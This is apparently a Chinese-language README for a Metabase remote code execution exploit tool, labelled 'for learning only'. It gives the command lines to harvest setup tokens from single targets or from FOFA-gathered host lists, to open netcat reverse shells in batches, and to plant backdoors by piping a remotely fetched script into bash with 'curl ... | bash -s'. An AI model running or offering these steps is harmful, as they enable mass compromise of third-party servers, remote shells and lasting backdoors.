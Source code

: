 # metabase_exp
metabase rce
# 仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门


获取token

python3 metabase_exp.py poc -u xxx.com

批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段

python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json



尝试nc反弹

python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口

nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了

python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口



尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行

python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -payload 你的payload




太菜了写的不是很好啊哈哈


我的库版本
certifi            2023.5.7
charset-normalizer 3.2.0
pip                23.2.1
pycryptodomex      3.14.0
requests           2.31.0
setuptools         67.6.1
urllib3            2.0.3
wheel              0.40.0
版本问题没试过
